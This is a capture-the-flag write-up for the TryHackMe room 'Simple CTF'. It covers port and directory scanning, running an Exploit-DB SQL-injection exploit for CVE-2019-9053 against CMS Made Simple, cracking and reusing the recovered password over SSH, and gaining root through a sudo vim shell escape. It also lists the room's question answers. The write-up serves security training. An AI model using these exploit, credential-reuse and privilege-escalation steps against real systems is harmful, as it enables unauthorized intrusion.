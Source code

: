 <p align="center">
  THM : Simple CTF<br>
  Difficulty : Easy<br>
  Room link : https://tryhackme.com/room/easyctf<br>
  <img src="https://i.imgur.com/TdJUzQ4.png">
</p>

## Summary

- [Nmap scan](#nmap-scan)
- [Website enumeration](#website-enumeration)
- [SQL Injection](#sql-injection)
- [Get the user flag](#get-the-user-flag)
- [Privilege escalation](#privilege-escalation)
- [Conclusion](#conclusion)

## Nmap scan
```
┌──(attacker㉿AttackBox)-[~/Documents/TryHackMe/CTF/Simple_CTF]
└─$ nmap 10.10.48.140 -A -p- -oN nmapResults.txt
Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-01 16:41 CEST
Nmap scan report for 10.10.48.140
Host is up (0.031s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.8.95.171
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 2 disallowed entries 
|_/ /openemr-5_0_1_3 
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 29:42:69:14:9e:ca:d9:17:98:8c:27:72:3a:cd:a9:23 (RSA)
|   256 9b:d1:65:07:51:08:00:61:98:de:95:ed:3a:e3:81:1c (ECDSA)
|_  256 12:65:1b:61:cf:4d:e5:75:fe:f4:e8:d4:6e:10:2a:f6 (ED25519)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 166.41 seconds
```

- We can login to the ftp service as ftp user on port 21.
- There is a website on port 80.
- The ssh service is running on port 2222.

**Question : How many services are running under port 1000 ?**  
**Answer : 2**  

**Question : What is running on the higher port ?**  
**Answer : ssh**

## Website enumeration

### Summary

- [Gobuster enumeration](#gobuster-enumeration)
- [Manual enumeration](#manual-enumeration)

### Gobuster enumeration

```
──(attacker㉿AttackBox)-[~/Documents/TryHackMe/CTF/Simple_CTF]
└─$ gobuster dir -u http://10.10.48.140/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.48.140/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/10/01 16:54:58 Starting gobuster in directory enumeration mode
===============================================================
/simple               (Status: 301) [Size: 313] [--> http://10.10.48.140/simple/]
/server-status        (Status: 403) [Size: 300]                                  
                                                                                 
===============================================================
2022/10/01 17:06:46 Finished
===============================================================
```

### Manual enumeration

If we go to the /simple directory found by [Gobuster](https://github.com/OJ/gobuster), we see that a CMS is installed on the server. 
It's `CMS Made Simple`.  
![](https://i.imgur.com/nZExa05.png)  

We can see the current installed version at the bottom of the page :  
![](https://i.imgur.com/j4PoLr8.png)  

If we search for it on [Exploit-DB](https://www.exploit-db.com/), we can see that the current installed version of 
CMS Made Simple is vulnerable to SQL Injections :  
![](https://i.imgur.com/hQ1ytbD.png)  

We can see the corresponding CVE :  
![](https://i.imgur.com/Hxa15eQ.png)  

**Question : What's the CVE you're using against the application ?**  
**Answer : CVE-2019-9053**

**Question : What kind of vulnerability is the application vulnerable ?**  
**Answer : sqli**  

## SQL Injection

Let's use the exploit found on [Exploit-DB](https://www.exploit-db.com/). The exploit will use a time based sql injection to retrieve informations 
about the admin account of the CMS. Let's see the available options of this exploit :  
```
Options:
  -h, --help            show this help message and exit
  -u URL, --url=URL     Base target uri (ex. http://10.10.10.100/cms)
  -w WORDLIST, --wordlist=WORDLIST
                        Wordlist for crack admin password
  -c, --crack           Crack password with wordlist
```

The exploit can also crack the password hash with a given wordlist. Let's try to crack it with rockyou.txt using  
`python2 46635.py -u http://10.10.48.140/simple/ -w /usr/share/wordlist/rockyou.txt -c` :  
```
[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
[+] Password cracked: secret
```

Now we have the admin credentials of the CMS. If we try to use the same credentials to login via SSH :  
```
┌──(attacker㉿AttackBox)-[~/Documents/TryHackMe/CTF/Simple_CTF]
└─$ ssh mitch@10.10.48.140 -p 2222
The authenticity of host '[10.10.48.140]:2222 ([10.10.48.140]:2222)' can't be established.
ED25519 key fingerprint is SHA256:iq4f0XcnA5nnPNAufEqOpvTbO8dOJPcHGgmeABEdQ5g.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[10.10.48.140]:2222' (ED25519) to the list of known hosts.
mitch@10.10.48.140's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-58-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

0 packages can be updated.
0 updates are security updates.

Last login: Mon Aug 19 18:13:41 2019 from 192.168.0.190
$ 
```

It works ! We have a shell on the machine now.  

**Question : What's the password ?**  
**Answer : secret**  

**Question : Where can you login with the details obtained ?**  
**Answer : ssh**  

## Get the user flag

The user.txt flag is located in `/home/mitch`.
```
$ ls
user.txt
$ cat user.txt
********, *****!
```

We have the user flag !

**Question : What's the user flag ?**  
**Answer : \*\*\*\*\*\*\*\*\*, \*\*\*\*\*\*!**  

## Privilege escalation

If we look in the /home directory, there is another user :  
```
$ cd ..
$ ls
mitch  sunbath
```

If we use `sudo -l`, we see that mitch can use vim as root without any password. Let's see on [GTFOBins](https://gtfobins.github.io/) how to elevate our privileges using vim :  
![](https://i.imgur.com/G28XSLj.png)

Let's use `sudo vim -c ':!/bin/bash'` :  
```
$ sudo vim -c ':!/bin/sh'

# whoami
root
```

And we are root ! We can now get the root flag. It is located in /root :  
```
# cd /root
# ls
root.txt
# cat root.txt  
**** ****. ***********!
```

**Question : Is there any other user in the home directory ? What's its name ?**  
**Answer : sunbath**  

**Question : What can you leverage to spawn a privileged shell ?**  
**Answer : vim**  

**Question : What's the root flag ?**  
**Answer : \*\*\*\* \*\*\*\*. \*\*\*\*\*\*\*\*\*\*!**

## Conclusion

I think this room is a good CTF to start with if you are a beginner. It's really well guided. Thanks for this room !
